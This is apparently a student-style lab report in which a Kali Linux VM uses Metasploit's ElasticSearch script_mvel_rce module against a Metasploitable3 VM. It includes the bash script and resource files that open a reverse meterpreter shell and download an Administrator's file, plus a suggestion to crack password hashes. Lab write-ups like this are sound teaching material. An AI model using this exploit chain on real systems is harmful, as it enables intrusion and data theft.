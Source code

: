 # Cybersecurity
## Cybersecurity demo - ElasticSearch exploit

### Summary

[Introduction](#Introduction)<br>
[Threat model](#Threat-model)<br>
[Setup](#Setup)<br>
[Execution](#Execution)<br>
[Results](#Results)<br>
[Conclusions](#Conclusions)<br>
[Further developments](#Further-developments)<br>
[Sources](#Sources)
<br>
<br>
### Introduction

This report describes the exploitation of an ElasticSearch [[1]](#Sources)
vulnerability present on a victim's machine using an attacking machine able to execute the exploit.
<br>
<br>
### Threat model

The threat model entails an attacker already inside the private network of the victim and able to establish a connection to
the victim's machine. As an hypothesis, the attacker is interested in downloading the contents of a file managed by the
victim's machine Administrator; disruption of operation is not paramount in this threat model, as the attacker is envisioned
as trying to acquire proprietary knowledge without alerting the legitimate owner in order to sell it to a potential buyer.
<br>
<br>
### Setup

metasploitable3-workspace_win2k8_1742132564644_45096 [[2]](#Sources) Virtual Machine (VM) as the victim's machine.

kali-linux-2024.4-virtualbox-amd64 [[3]](#Sources) VM as the attacker's machine.

The attacker's machine is tasked with automatically running a series of scripts containing all the information
necessary to exfiltrate the file from the victim's machine; the attack uses ```exploit/multi/elasticsearch/script_mvel_rce``` [[4]](#Sources)
to gain access to the victim's machine file system.
<br>
<br>
### Execution

The victim machine is on during the execution of the exploit with user 'vagrant' as the authenticated user.

All files involved in the execution of the exploit are made executable by other processes with ```chmod +rx <name>.<extension>```

The attacker launches the ```exfiltration.sh``` bash script from the ```/home/kali``` directory of the attacker's machine.

```
# exfiltration.sh

#!/bin/bash

cd ~
msfconsole -q -r ./exfiltration.rc
```

```exfiltration.sh``` is tasked with launching msfconsole with ```exfiltration.rc``` as the resource file to be loaded at startup.


```
# exfiltration.rc

use exploit/multi/elasticsearch/script_mvel_rce
set rhosts 10.0.2.15
set AutoRunScript ./meterpreter_exploit.rc
run
exit
```

```exfiltration.rc``` is tasked with feeding msf6 console with the exploit setup and the victim machine private IPv4 address;
it then sets a third file, ```meterpreter_exploit.rc``` as an automated list of commands to be executed at the establisment of
a reverse TCP shell.

```
# meterpreter_exploit.rc

cd ..
cd ..
cd Users
cd Administrator
download important.txt
```

```meterpreter_exploit.rc``` contains the instructions to access the Administrator's directory and download the ```important.txt```
file.

The attacker can then perform further actions; when satisfied, the connection is closed by entering ```quit``` in the meterpreter
terminal. Finally, the execution completes with the final ```exit``` instruction present in ```exfiltration.rc```.
<br>
<br>
### Results

At the end of execution, the file ```important.txt``` is successfully downloaded to the attacker's machine inside the
```/home/kali``` directory.
<br>
<br>
### Conclusions

This experiment has proven that a vulnerability allowing for Remote Code Execution (RCE) in textual input is sufficient
to gain control of the victim's machine. 
<br>
<br>
### Further developments

This demo can be further expanded by allowing for a dynamic choice of the victim's machine and the execution of a more powerful
exploit to gain access to the Administrator's hashed password, using an instrument like John the Ripper [[5]](#Sources) to infere the password
from the hash and gain access to the Administrator's account.
<br>
<br>
### Sources

[1] https://it.wikipedia.org/wiki/Elasticsearch

[2] https://github.com/rapid7/metasploitable3

[3] https://www.kali.org/docs/virtualization/import-premade-virtualbox/

[4] https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/elasticsearch/script_mvel_rce.rb

[5] https://www.openwall.com/john/
